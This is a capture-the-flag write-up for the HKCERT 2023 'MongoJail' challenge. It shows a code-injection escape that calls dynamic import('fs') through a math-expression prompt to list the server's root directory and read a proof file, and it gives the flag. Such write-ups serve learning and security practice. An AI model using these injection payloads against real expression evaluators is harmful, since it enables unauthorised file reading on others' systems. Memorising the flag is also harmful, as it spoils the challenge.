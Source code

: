 # MongoJail

https://hackmd.io/@blackb6a/hkcert-ctf-2023-ii-en-4e6150a89a1ff32c#%E7%8D%84%E9%96%80%E7%96%86--MongoJail-Pwn <br/>
by following the guide and looking into the `JavaScript reference` <br/>
we can see here is an useful built-in function called `import()` which can import libraries <br/>
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/import

<details>
<summary>example</summary>

```js
import("/my-module.js").then((mod2) => {
  console.log(mod === mod2); // true
});
```

</details>

then, we execute this command in the jail to load the `fs` library and list the root directory

```js
import('fs').then(fs => {return fs.readdirSync('/')})
```

```
Enter math expression:
import('fs').then(fs => {return fs.readdirSync('/')})
[
  'bin',
  'boot',
  'data',
  'dev',
  'docker-entrypoint-initdb.d',
  'etc',
  'home',
  'js-yaml.js',
  'lib',
  'lib32',
  'lib64',
  'libx32',
  'media',
  'mnt',
  'opt',
  'proc',
  'proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh',
  'root',
  'run',
  'sbin',
  'srv',
  'sys',
  'tmp',
  'usr',
  'var'
]
```

it can be clearly seen that there is a `proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh` file <br/>
read it!

```js
import('fs').then(fs => {return fs.readFileSync('/proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh').toString()})
```

```
Enter math expression:
import('fs').then(fs => {return fs.readFileSync('/proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh').toString()})
#!/bin/sh
echo hkcert23{WolframAlpha_L0v3z_Shibuya-Yuri_Harajuku-Furi}
```

you get the flag!😋

flag: hkcert23{WolframAlpha_L0v3z_Shibuya-Yuri_Harajuku-Furi}

